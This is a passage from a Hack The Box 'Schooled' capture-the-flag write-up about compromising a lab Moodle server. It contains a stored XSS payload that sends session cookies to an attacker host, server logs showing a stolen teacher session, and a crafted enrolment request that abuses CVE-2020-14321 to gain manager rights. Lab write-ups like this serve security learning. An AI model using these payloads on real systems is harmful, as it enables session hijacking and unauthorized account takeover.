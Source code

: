 * Logged as the recently created user and modified the MoodleNet profile with the following content

  ```html
  <script>var i=new Image;i.src="http://10.10.10.10/xss.php?"+document.cookie;</script>
  ```

* Hosted the `xss.php` in a folder and started a local PHP webserver, which 2 minutes later displayed us the teacher's cookie on the page

  ```bash
  $ sudo php -S 0.0.0.0:80 -t .
  [Mon Aug  9 14:44:05 2021] PHP 7.4.21 Development Server (http://0.0.0.0:80) started
  [Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 Accepted
  [Mon Aug  9 14:45:28 2021] PHP Notice:  Undefined index: METHOD in /opt/dcruz/htb/schooled-10.10.10.234/exploit/www/xss.php on line 28
  [Mon Aug  9 14:45:28 2021] PHP Notice:  Undefined index: REMOTE_HOST in /opt/dcruz/htb/schooled-10.10.10.234/exploit/www/xss.php on line 29
  [Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 [200]: GET /xss.php?MoodleSession=d8so1t4rs4vmg8btrgfr2ps6fr
  [Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 Closing
  
  ```

Now aware of this Session parameter, changed it in browser and we can now see in the upper right corner that I'm connected as Manuel Philips

![HTB Schooled - Moodle as Manuel Philips](https://i.imgur.com/n3plh19.png){: .align-center}

Now that I have a more privileged access as a teacher, we need to check if current permissions (Teacher) are enough to get an RCE.

Searching about Moodle Exploitation on [Moodle - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/moodle#rce) page, found out that I need to be a manager to upload a plugin, which can host malicious code to our purpose. Besides not having the appropriate permission noticed that version **is also vulnerable to a** [**Privilege Escalation Vulnerability**](https://moodle.org/mod/forum/discuss.php?d=407393), which could allow me to get manager permission in the course abusing the enrollment process and, if a student is the Site Manager, I could impersonate him and upload the malicious plugin, obtaining RCE. The same author of the other CVE has also [a repository in Github](https://github.com/HoangKien1020/CVE-2020-14321) containing a PoC that could help us to escalate those privileges and get RCE.

Besides not working well in our scenario, understanding the steps required used in the exploit, the following steps were executed to be able to get RCE:

* The first thing would identify who in the platform could have manager permissions. Based on the institutional page, **Lianne Carter** is the school's manager and possibly has the rights we need.
* Also took note of **Manuel Philips**' Profile id, which was obtained from his profile page at `http://moodle.schooled.htb/moodle/user/profile.php?id=24`.
* Things started by enrolling the school's manager in the class and, intercepting the request and sending a copy of it to Burp's Repeater, also crafted a request granting us Manager Administration in the course, by assigning us the `roleid=1` in the request, as well as changing the assignee id to Manuel Philips, the same way as seen in the PoC video.

  ```http
  GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=KbJYqTapFc&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=24&roletoassign=1&startdate=4&duration= HTTP/1.1
  Host: moodle.schooled.htb
  Accept: */*
  X-Requested-With: XMLHttpRequest
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
  Content-Type: application/json
  Referer: http://moodle.schooled.htb/moodle/user/index.php?id=5
  Accept-Encoding: gzip, deflate
  Accept-Language: en-US,en;q=0.9
  Cookie: MoodleSession=jil2s8i0vj0gq3vojfki6e7rtq
  Connection: close
  ```